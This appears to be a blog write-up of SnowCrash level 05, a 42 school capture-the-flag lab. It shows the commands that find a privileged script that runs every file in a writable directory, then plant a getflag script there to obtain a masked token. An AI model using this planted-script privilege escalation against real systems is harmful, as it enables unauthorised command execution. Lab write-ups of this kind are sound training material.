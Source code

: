 ```yaml
---
title: 42 SnowCrash Level05 - Walkthrough 👿
tags:
  - ctfs
  - snowcrash
  - 42project
  - services
categories:
  - ctfs
  - 42project
date: 2024-05-18 14:50:03
---
```



### Introduction

In level 05, we need to exploit a script (`openarenaserver`) that executes all scripts found in a specific directory (`/opt/openarenaserver/`). By placing a script containing the `getflag` command in this directory, we can obtain the flag.

### Steps:

1. **Finding Relevant Files:**
   First, we search for files owned by the user `flag05` and his group:

   ```sh
   level05@SnowCrash:~$ find / -user flag05 -group flag05 2>/dev/null
   /usr/sbin/openarenaserver
   /rofs/usr/sbin/openarenaserver
   ```

2. **Analyzing the Script:**
    We examine the contents of the openarenaserver script:

    ```sh
    level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
    #!/bin/sh

    for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
    done
    ```
    The script iterates through all files in /opt/openarenaserver/, executes them with a time limit of 5 seconds, and then removes them.

3. Exploiting the Script:
    We create a script named xploit containing the getflag command in the /opt/openarenaserver/ directory:
    ```shell
    level05@SnowCrash:~$ echo "'getflag' > /tmp/xploit" > /opt/openarenaserver/xploit
    ```

4. Monitoring the Result:
    We watch the content of /tmp/xploit to capture the flag:
    ```shell
    level05@SnowCrash:~$ watch cat /tmp/xploit
    Every 2.0s: cat /tmp/xploit                                           Fri Oct 27 17:02:01 2023
    Check flag. Here is your token : ************************
    ```
    The flag is obtained by executing the getflag command within the openarenaserver script.

## Conclusion
By understanding the behavior of the openarenaserver script and exploiting its functionality to execute arbitrary commands placed in the /opt/openarenaserver/ directory, we successfully obtained the flag for level 05.
